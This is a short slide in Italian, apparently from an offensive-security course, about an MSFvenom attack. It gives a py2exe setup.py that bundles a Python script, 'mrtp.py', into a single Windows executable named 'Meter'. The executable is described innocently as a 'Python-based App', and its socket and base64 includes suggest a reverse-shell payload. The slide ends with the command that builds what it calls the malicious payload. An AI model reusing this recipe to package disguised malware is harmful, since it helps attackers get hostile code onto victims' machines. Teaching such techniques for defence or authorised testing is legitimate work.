

MSFvenom,Attacco 6.1 (Aggiornato) 2/2
from distutils.core import setup
	import py2exe
	setup(
	name = “Meter”,
	description = “Python-based App”,
	version = “1.0”,
	console=[“mrtp.py”],
	options = {“py2exe”: {“bundle_files”: 	1,”packages”:”ctypes”,”includes”: 	“base64,sys,socket,struct,time,code,platform,getpass,shutil”,}},
	zipfile = None,	)
Per creare il payload malevolo:
python.exe .\setup.py py2exe